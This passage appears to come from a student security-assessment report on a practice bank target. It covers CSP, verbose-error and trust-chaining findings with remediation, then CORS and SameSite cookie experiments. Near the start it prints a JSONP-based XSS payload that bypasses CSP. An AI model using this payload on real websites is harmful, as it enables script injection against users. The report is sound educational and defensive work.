As a proof of concept, it can be seen that arbitrary code execution can occur by using JSONP to bypass the CSP restriction for external scripts, where the following payload for the last name successfully displays the alert.

```html
<script src=/students.jsonp?callback=alert(1);></script>
```



### Impact

As demonstrated in the proof of concept above, this vulnerability enables XSS. However, the only way to get this code execution would be to try and create a duplicate student with a specific payload for the last name field. Although this is relatively harmless on its own, an attacker may be able to chain this with CSRF (client-side request forgery) to manually submit the same form for another user, causing them to be redirected to the compromised page.

### Remediation

Similar to the other sturec.quoccabank.com vulnerabilities, the general recommendation here would be to remove the use of JSONP so the CSP blocks user scripts as expected. Furthermore, the last name field value should be HTML-encoded as well, before being displayed to the user. 

## P4 LOW - Verbose Error Messages for deploying API

**Asset Domain:** ctfproxy2.quoccabank.com

**Severity Classification:** P4 - Low Risk

### Vulnerability Details

Verbose error messages are shown in `/setup` when tampering with the payload of deploying an API.

### Proof of Concept / Steps to Reproduce

1. By modifying the body of the request when creating an API, error messages are sent back through a cookie which details information on what is required by the backend from the JSON sent.

   

   

2. For proof of concept, further tampering of the body such as adding a new field gives us the required fields that the backend service only accepts.

   

### Impact

This vulnerability can be chained together with other exploits (such as **P2 HIGH - Incorrect Access Control for flagprinter-v2**) which can lead to more severe vulnerabilities being exposed. This vulnerability however merely acts as another form of recon for an attacker to learn more about the web application. However, verbose error messages such as these display too much information such as hidden parameters used in the request body.

### Remediation

Use custom and non-specific error messages rather than error messages from a stack trace. Error messages should not reveal too much on the technical specifications of the web application such as the parameters used or the backend service.

## P5 Acceptable - Lack of Security Headers (Content-Security-Policy) for Inline JavaScript Execution (hash)

**Asset Domain:** csp.quoccabank.com

**Severity Classification:** P5 - Acceptable

### Vulnerability Details

Content Security Policy (CSP) is an additional layer of security within a web application that enforces the loading of resources (scripts, images, etc.) from trusted locations. In `csp.quoccabank.com`, QuoccaBank is utilising a CSP policy to load a variety of resources as part of the page's content. However, the inline JavaScript is not loaded since the hashed value of the script tag is not whitelisted in the CSP header.

### Proof of Concept / Steps to Reproduce

1. By inspecting the chrome dev tool, we notice this error.

    

2. Update the CSP header to include the same hash as the one included in the resource (found in the error message) as this will ensure that CSP will correctly load any resources with that hash.



### Impact

Although this method is cumbersome to maintain (as every minor change in the code would require the hash value to be regenerated), understanding CSP whitelisting using Hash values is useful in understanding the basics of CSP inline script whitelisting. The vulnerability is classified as a P5 - Acceptable as it is a misconfiguration on behalf of the server.

### Remediation

Training developers properly in understanding how CSP headers works will dramatically increase the security of the application and allow trusted resources to load correctly. If maintaining inline JavaScript proves cumbersome to whitelists in the CSP header through a hash, it is recommended for developers to adopt using `nonce` instead.

## P5 Acceptable - Lack of Security Headers (Content-Security-Policy) for Image source inclusion

**Asset Domain:** csp.quoccabank.com

**Severity Classification:** P5 - Acceptable

### Vulnerability Details

Misconfigurations of CSP headers do not contain a whitelist for the image resource and as a result, it is not loaded on the website. 

### Proof of Concept / Steps to Reproduce

1. By updating the CSP header to include the two domains `i.picsum.photos` and `unsplash.it`, the image would be allowed to load.
	

### Impact

Not understanding how CSP works would cause inexperienced developers to panic when trying to figure out why their image does not correctly load, and as a result, would fall back to using insecure CSP headers.

### Remediation

Similar to the remediations mentioned in **P5 Acceptable - Lack of Security Headers (Content-Security-Policy) for Inline JavaScript Execution (hash)**, training developers properly in understanding CSP headers will dramatically increase the security of the application.


## P5 Acceptable - Lack of Security Headers (Content-Security-Policy) for Inline JavaScript execution

**Asset Domain:** csp.quoccabank.com

**Severity Classification:** P5 - Acceptable

### Vulnerability Details

Due to a misconfiguration of the CSP header, the inline JavaScript is not loaded since the `nonce` value associated with the script tag is not whitelisted as a trusted resource.

### Proof of Concept / Steps to Reproduce

1. By inspecting the page source, the inline script that we are trying to run is this


2. By updating the CSP header to include the same `nonce` like the one included in the target script tag, the script as a result is whitelisted by CSP to be allowed to run.

  

### Impact

Understanding CSP whitelisting using Nonce values is very useful in improving the security of a web app as well as minimise errors that the developer faces. Misconfigurations of CSP headers such as scripts may cause important JavaScript to not load on the website, affecting the functionality of some features. Unlike other methods of whitelisting inline script tags seen with **P5 Acceptable - Lack of Security Headers (Content-Security-Policy) for Inline JavaScript Execution (hash)**, using `nonce` makes resources easier to maintain if the web application is expanded further to include more resources.

### Remediation

Similar to the remediations mentioned in **P5 Acceptable - Lack of Security Headers (Content-Security-Policy) for Inline JavaScript Execution (hash)**, training developers properly in understanding how CSP headers works will dramatically increase the security of the application. Using `nonce` values ensures that a specific resource on the page is trusted by the CSP header and is correctly loaded.

## P5 Acceptable - Lack of Security Headers (Content-Security-Policy) for Trust chaining

**Asset Domain:** csp.quoccabank.com

**Severity Classification:** P5 - Acceptable

### Vulnerability Details

Trusted scripts send requests to an external non-whitelisted domain. If the CSP header contains 'strict-dynamic', then it would trust all domains which are included in all trusted scripts.

### Proof of Concept / Steps to Reproduce

By inspecting the page source, it can be seen that the trusted script `quote-loaded.js` executes a script tag directed to an external domain `scrapp.quoccabank.com` 



By updating the CSP header to include 'strict-dynamic', the domain `scrapp.quoccabank` will also be whitelisted.



### Impact

By creating a trust chain within all inline scripts, it can introduce new attack surfaces into the web application. If an attacker can take over any one of those trusted external resources, this can lead to a compromise in the website.

### Remediation

Use strict-dynamic with caution, or just whitelist individual domains instead of automatically trusting all dependencies.

## CORS Testing

This section details Cross-Origin Resource Sharing (CORS) using `https://www.test-cors.org/` as the testing platform. QuoccaBank should be familiar with how CORS operates and the results of these test scenarios outlined below should help the organisation to analyse how to ensure proper handling of CORS.

### Content-Type: application/json; charset=utf-8

*1. [**JS**] Set content type as “application/json; charset=utf-8”. Send GET request to server.*

#### Is prefight request sent? Capture the request & response.

When sending a CORS request with `content-type` set as `application/json`, a pre-flight request **was** sent. 


The request and response of the pre-flight request are shown below.

*Request Headers:*


*Response Headers*:



#### Is there any CORS error in browser? If so, capture it.

The browser console displayed the following CORS error below. The error was caused by having the `content-type` field as part of the pre-flight response.


### Content-Type: text/plain

*2 & 3. [**JS**] Set content type as “text/plain”. Send requests to server using GET, POST, OPTIONS, DELETE, PUT methods..*

#### Is prefight request sent? Capture the request & response. Is there any CORS error in browser? If so, capture it.

For both GET and POST requests, when the `content-type` was set to `text/plain`, a pre-flight request was **NOT** sent, and there were NO CORS errors thrown.

##### GET


##### POST




For requests with `content-type: text/plain`, and methods set as OPTIONS, DELETE and PUT, a pre-flight request was sent and each resulted in a CORS Error.

##### OPTIONS






##### DELETE


##### PUT




### Simple Requests Headers set by JavaScript

*4. [**Research**] What are the headers that can be set by JS and not trigger a pre-flight for GET request. Please explain, why the decision was made to allow a select set of content type for GET simple requests?*

Requests that do not trigger a CORS pre-flight are referred to as 'simple requests'. It is noted that these 'simple requests' can only use GET, POST, or HEAD as their methods. Headers specified under the 'CORS-safelisted request headers' can be manually set by JavaScript which does not trigger a pre-flight request. These headers include  `Accept`, `Accept-Language`, `Content-Language`, and `Content-Type` with the values of `Content-Type` restricted to `application/x-www-form-urlencoded`, `multipart/form-data`, and `text/plain`. Further requirements of 'simple requests' are that it must not contain a `ReadableStream` object in the request.

The decision to have a selected set of values for the `Content-Type` header is that it ensures the payload is considered to be safe to expose to the client scripts. This means that only safelisted response headers are made available to web pages.

More details for simple requests can be found here:

- [MDN Web Docs - CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)
- [MDN Web Docs - CORS-safelisted request-header](https://developer.mozilla.org/en-US/docs/Glossary/CORS-safelisted_request_header)
- [Fetch Spec - CORS-safelisted request-header](https://fetch.spec.whatwg.org/#cors-safelisted-request-header)

### Wildcard in Access-Control-Allow-Origin

*5. [**Research**] Is wildcard character (***) allowed in Access-Control-Allow-Origin response header? If so, under what conditions would wildcard not be allowed as value of “Access-Control-Allow-Origin” header?*

Wildcard parameters (*) for the `Access-Control-Allow-Origin` header are allowed except for when the `Access-Control-Allow-Credentials` header is set to `true`. This header would be used when the server is accepting cookies that are being sent from the client. Furthermore, wildcards **cannot** be used within any other values such as the `Access-Control-Allow-Origin: https://*.example.com`.

### HTML Form

*6. [**HTML5**] Insert your own HTML form. Should contain at least 1 field. Ensure form uses POST method and sends request to server endpoint. Do not use JavaScript. Please see picture below.*

Inject the following HTML code below via 'Inspect Element' and edit the DOM to create a form that sends a POST request to the server endpoint once the it is submitted.


```html
<form action="https://server.test-cors.org/server?id=8179348&enable=true&status=200&credentials=false" method="POST">
    <input type="text" id="test" name="test" placeholder="test" />
    <input type="submit"/>
</form>
```

#### Does this trigger pre-flight request? If so, capture it.

The pre-flight request was not triggered.



#### Does the server respond with any “Access-Control-***” headers? If so, capture it. If not, please explain why?

The server responds with the `Access-Control-Allow-Origin` header as shown below.



### Understanding CORS and Cookies

*7. [**JS**] Set content type as “text/plain”. Add a dummy cookie (“my-dummy-cookie”) in cookie jar of browser for domain server.test-cors.org. Send an explicit credentialed GET request to server.*

1. *Does this invoke a pre-flighted request? If so, please capture request & response.*

2. *Does the first request from browser to server contain the “my-dummy-cookie”? if so, please capture request & response.*

3. *Is there any “Access-Control-Allow-Credentials” header in server response? If so, please capture request & response.*

4. *What happens in the browser if server responds with “Access-Control-Allow-Credentials: false”?*

   


Initially, when sending a GET request with `Content-Type: text/plain`, and **without** the `with credentials` and `allow credentials`, there were:

- **NO** preflight request
- It did NOT contain the `my-dummy-cookie`
- There was no `Access-Control-Allow-Credentials` header in the server response.


*Request:*



*Response:*


However, if we **send an explicit credentialed GET request to the server**, it:

- does not invoke a pre-flight response
- contains the `my-dummy-cookie`
- contains the `Access-Control-Allow-Credentials` header in the server response.



*Request:*


*Response:*



If the server responds with `Access-Control-Allow-Credentials: false`, it means that the request has been blocked by the CORS policy and throws the following errors.


Thus, cookies are only sent if the browser sends a request with `credentials` set to true, and as well as the server included `Access-Control-Allow-Credentials: true` in the response header.

### Response Redirection

*8. [**JS**] Optional - Set content-type as “application/json; charset=utf-8”. Send a GET request to server. Allow the pre-flight response to reach the browser. When the browser makes GET request, modify the response from the server to 301 redirect to https://google.com/*

#### How does the browser behave? Please capture, request/response

Editing the pre-flight response to have the HTTP code of `301 Moved Permanently` with redirect set to `google.com` throws a CORS error as it does not pass the access control check as a redirect is not allowed for a pre-flight request.



*Request:*


*Response:*



## SameSite Impact

According to the [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite), the `SameSite` attribute of a cookie sets whether the cookie can be shared strictly by the same domain of the page (known as a first-party cookie) or by a website with a different domain (known as a third-party cookie). The possible `SameSite` values are defined below:

- `Strict`: Cookies can only be sent in if it is a same-site request (i.e. has been requested by the same domain) and cannot be sent if it is a cross-site request
- `Lax`: Cookies can be sent if it is a same-site request. It can also be sent if a user navigates to the origin site by top level navigation (i.e. clicking on a hyperlink). This means that other cross-site requests such as sending a JavaScript GET request or loading images are strictly denied.
- `None`: Cookies can be sent in a same-site and cross-site request.

NOTE: When testing the `SameSite` attribute values, `None` cookies must require the `Secure` attribute to be enabled since the browser rejects the cookie when it is not marked by `Secure`.

### Cross-Site Request

It is especially important for QuoccaBank to have a thorough understanding of ensuring that the attribute values of cookies are set in the appropriate context. Without security measures in place, sensitive information can be leaked through mishandling cookie configurations. This section details the possible implications of sending cookies over with the different usage of the `SameSite` attribute values over a cross-site request both in a top level navigation (HTML) and JavaScript GET request manner. For testing purposes, ` https://jub0bs.github.io/samesitedemo-attacker-foiled` will be used to see if it can send cookies to `https://samesitedemo.jub0bs.com/readcookie` using a cross-site request.

#### HTML Navigation Testing

*1. [**HTML5**] In a new browser tab navigate to https://jub0bs.github.io/samesitedemo-attacker-foiled . Click on the link on that page.*

The website `https://jub0bs.github.io/samesitedemo-attacker-foiled` has a navigation link to `https://samesitedemo.jub0bs.com/readcookie` embedded in the HTML page. This allows us to test different usage of the `SameSite` attribute, making a top level navigation cross-site request in an attempt to retrieve the cookie. For all tests, ensure that a cookie exists and is stored on `samesitedemo.jub0bs.com` with the respective `SameSite` attribute.

**Testing with 'Strict' Cookies**

*1.1. Is “StrictCookie” sent to server when navigating to https://samesitedemo.jub0bs.com/readcookie? If so, please capture request/response.*

When navigating to `https://samesitedemo.jub0bs.com/readcookie` from `https://jub0bs.github.io/samesitedemo-attacker-foiled` in a top level navigation manner, the cookie is not sent over to the sever. The `Strict` cookies can only be sent over to the sever if it is a same-site request.

**Testing with 'Lax' Cookies**

*1.2. Change, “SameSite” attribute to “Lax” and navigate to https://samesitedemo.jub0bs.com/readcookie. Is “StrictCookie” sent to server? If so, please capture request/response.*

`Lax` cookies can be sent over if the user navigates to the origin site in a top level navigation manner. Hence, the cookie is sent over when navigating to `https://samesitedemo.jub0bs.com/readcookie` from `https://jub0bs.github.io/samesitedemo-attacker-foiled`. The request and response headers with the cookie are captured below.

*Request:*


*Response:*



**Testing with 'None' Cookies**

*1.3. Change, “SameSite” attribute to “None” and navigate to https://samesitedemo.jub0bs.com/readcookie. Is “StrictCookie” sent to server? If so, please capture request/response.*

`None` cookies can be sent in a cross-site request. Note that on certain browsers (i.e. Google Chrome), cookies with `SameSite=None` must also require the `Secure` attribute. Otherwise, the browser may reject the cookie. However, other browsers may not require this condition at all. The request and response captured shows that the cookie is being appended in the cross-site request.

*Request:*


*Response:*



#### JavaScript GET Request Testing

*2. [**JS**] Repeat question 1 but instead of navigating to https://samesitedemo.jub0bs.com/readcookie make a JS GET request to https://samesitedemo.jub0bs.com/readcookie from https://jub0bs.github.io/samesitedemo-attacker-foiled.*

This section will test whether a JavaScript GET request from `https://jub0bs.github.io/samesitedemo-attacker-foiled` to `https://samesitedemo.jub0bs.com/readcookie` can retrieve the cookie. Since the demo sites have not implemented CORS headers, it is required to modify the response headers to include `Access-Control-Allow-Origin: *`. This can be achieved by using Burp Suite. JavaScript requests can be made through the browser console. The following payload is used to send a JavaScript GET request to the server. Ensure that a cookie exists on the website and is set with the correct `SameSite` attribute values.

```javascript
var createCORSRequest = function(method, url) {
  var xhr = new XMLHttpRequest();
  if ("withCredentials" in xhr) {
    // Most browsers.
    xhr.open(method, url, true);
  } else if (typeof XDomainRequest != "undefined") {
    // IE8 & IE9
    xhr = new XDomainRequest();
    xhr.open(method, url);
  } else {
    // CORS not supported.
    xhr = null;
  }
  return xhr;
};

var url = 'https://samesitedemo.jub0bs.com/readcookie';
var method = 'GET';
var xhr = createCORSRequest(method, url);

xhr.onload = function(res) {
  console.log("Request was successful")
};

xhr.onerror = function() {
  console.log("Unsuccessful request")
};

xhr.send();
```

**Testing with 'Strict' Cookies**

*2.1. Is “StrictCookie” sent to server when sending GET request to https://samesitedemo.jub0bs.com/readcookie? If so, please capture request/response.*

Since the JavaScript GET request is a cross-site request, 'StrictCookie' cannot be sent over to the server.

**Testing with 'Lax' Cookies**

*2.2. Change, “SameSite” attribute to “Lax” and send GET request to https://samesitedemo.jub0bs.com/readcookie. Is “StrictCookie” sent to server? If so, please capture request/response.*

`Lax` cookies can only be sent over a cross-site request if it is only a top level navigation. Thus, a JavaScript GET request cannot send 'StrictCookie' to the server.

**Testing with 'None' Cookies**

*2.3. Change, “SameSite” attribute to “None” and send GET request to https://samesitedemo.jub0bs.com/readcookie. Is “StrictCookie” sent to server? If so, please capture request/response.*

As mentioned previously, certain browser strictly prohibits cookies when `SameSite=None` with no `Secure` attribute set. The browser will reject those cookies and thus, no cookie is sent in the request.

**Testing with 'Secure' and 'None' Cookies**

*2.4. Set “Secure” attribute and “SameSite” set to “None” and send GET request to https://samesitedemo.jub0bs.com/readcookie. Is “StrictCookie” sent to server? If so, please capture request/response.*

'StrictCookie' was not sent when making the request from `https://jub0bs.github.io/samesitedemo-attacker-foiled` to `https://samesitedemo.jub0bs.com/readcookie`.

### Same-Site Request

*3. [**HTML5 & JS**]Repeat question 1 & 2, however instead of to https://jub0bs.github.io/samesitedemo-attacker-foiled use https://samesitedemo-attacker.jub0bs.com. Notice, https://samesitedemo-attacker.jub0bs.com is now SameSite as https://samesitedemo.jub0bs.com/readcookie*

This section covers testing same-site requests to retrieve cookies from a server. For testing purposes, the website `https://samesitedemo-attacker.jub0bs.com ` will be sending requests to `https://samesitedemo.jub0bs.com/readcookie` with a different `SameSite` value for each test case. Note that the domains of the two websites have the same domain and thus are the same site.

#### HTML Navigation Testing

*3.1. [**HTML5**] In a new browser tab navigate to https://samesitedemo.jub0bs.com/readcookie. Click on the link on that page.*

Similar to the **Cross Site HTML Navigation Testing**, `https://samesitedemo-attacker.jub0bs.com` has a top level navigation link to `https://samesitedemo.jub0bs.com/readcookie` embedded in the HTML page to be able to perform a same-site request to the server.

**Testing with 'Strict' Cookies**

*3.1.1. Is “StrictCookie” sent to server when navigating to https://samesitedemo.jub0bs.com/readcookie? If so, please capture request/response.*

Since`Strict` cookies can only send cookies if it is a same-site request, the 'StrictCookie' cookie from `https://samesitedemo.jub0bs.com/readcookie` is attached when `https://samesitedemo-attacker.jub0bs.com` is making the request. The request and response are captured below.

*Request:*



*Response:*


**Testing with 'Lax' Cookies**

*3.1.2. Change, “SameSite” attribute to “Lax” and navigate to https://samesitedemo.jub0bs.com/readcookie. Is “StrictCookie” sent to server? If so, please capture request/response.*

Since the request made is of the same site, cookies from `https://samesitedemo.jub0bs.com/readcookie` can be sent over from the request made by `https://samesitedemo-attacker.jub0bs.com`

*Request:*



*Response:*


**Testing with 'None' Cookies**

*3.1.3. Change, “SameSite” attribute to “None” and navigate to https://samesitedemo.jub0bs.com/readcookie. Is “StrictCookie” sent to server? If so, please capture request/response.*

Some browsers will reject when cookies that have set `SameSite=None` with no `Secure` attribute. However, if the `Secure` attribute is enabled and if a browser does not have this restriction, the 'StrictCookie' cookie is sent to the server.

*Request:*


*Response:*


#### JavaScript GET Request Testing

*3.2. [**JS**] Repeat question 1 but instead of navigating to https://samesitedemo.jub0bs.com/readcookie make a JS GET request to https://samesitedemo.jub0bs.com/readcookie from https://samesitedemo-attacker.jub0bs.com.*

This section covers if `https://samesitedemo-attacker.jub0bs.com` can send a cookie over when making a JavaScript GET request to `https://samesitedemo.jub0bs.com/readcookie`. Similar to the **Cross Site JavaScript GET Request Testing**, modify the response headers to include `Access-Control-Allow-Origin: *` and use the payload defined earlier in the browser console to send a JavaScript GET request to the server.

**Testing with 'Strict' Cookies**

*3.2.1. Is “StrictCookie”sent to server when sending GET request to https://samesitedemo.jub0bs.com/readcookie? If so, please capture request/response.*

Even if it is SameSite, it appears that it does not send the cookie over the server.







**Testing with 'Lax' Cookies**
*3.2.2. Change, “SameSite” attribute to “Lax” and send GET request to https://samesitedemo.jub0bs.com/readcookie. Is “StrictCookie” sent to server? If so, please capture request/response.*

`Lax` cookies are not being sent even if it is SameSite.






**Testing with 'None' Cookies**
*3.2.3. Change, “SameSite” attribute to “None” and send GET request to https://samesitedemo.jub0bs.com/readcookie. Is “StrictCookie” sent to server? If so, please capture request/response.*

As mentioned previously, certain browser rejects cookies when `SameSite=None` with no `Secure` attribute. Hence, we are not able to send the cookie over to the server. In other instances where browsers do not reject cookies without the `Secure` attribute enabled (i.e. Mozilla Firefox), the 'StrictCookie' cookie is still not sent to `https://samesitedemo.jub0bs.com/readcookie` from `https://samesitedemo-attacker.jub0bs.com`.






**Testing with 'Secure' and 'None' Cookies**
*3.2.4. Set “Secure” attribute and “SameSite” set to “None” and send GET request to https://samesitedemo.jub0bs.com/readcookie. Is “StrictCookie” sent to server? If so, please capture request/response.*
No cookie is sent when making the request.

### Sending Cookie with a Different Domain

*4. [**Research**] Optional - Does adding new cookie with value of “domain” attribute to “.jub0bs.com” have any impact to behaviour with respect to question 3? If so, please explain.*

The `Domain` attribute of a cookie specifies which host the cookie will be sent to. Creating a cookie named `WeirdCookie` (shown below) with the `Domain=.jub0bs.com` means that the cookie will be used for every domain as to the leading period in front of `.jub0bs.com` signifies a wildcard for all subdomains under that origin.



This is proven as to when accessing `https://samesitedemo.jub0bs.com` via a top level navigation from `https://samesitedemo-attacker.jub0bs.com`, both `WeirdCookie` and `StrictCookie` were sent in the request headers.


It is important to mention that `https://samesitedemo.jub0bs.com` appears to only show the `StrictCookie` regardless of any other cookies that were sent, such as `WeirdCookie`.



Further research indicates that the `WeirdCookie` can be sent and retrieved from other subdomains of `jub0bs.com`. If `Domain=.jub0bs.com`, it specifies that all subdomains can access the cookie. For example, `https://samesitedemo-attacker.jub0bs.com/` has access to the `WeirdCookie` cookie shown below.


From this testing scenario, QuoccaBank should ensure that if sensitive information is stored in a cookie, the `Domain` attribute is set to the correct value and not utilise a wildcard such as `.quoccabank.com`. This is to ensure that no sensitive information in cookies can be sent over from a different subdomain. Without this protective measure in specifying the `Domain` attribute for a cookie, an attacker can exfiltrate any cookies with `Domain=.quoccabank.com` from other QuoccaBank's owned sites and tamper or modify their values.

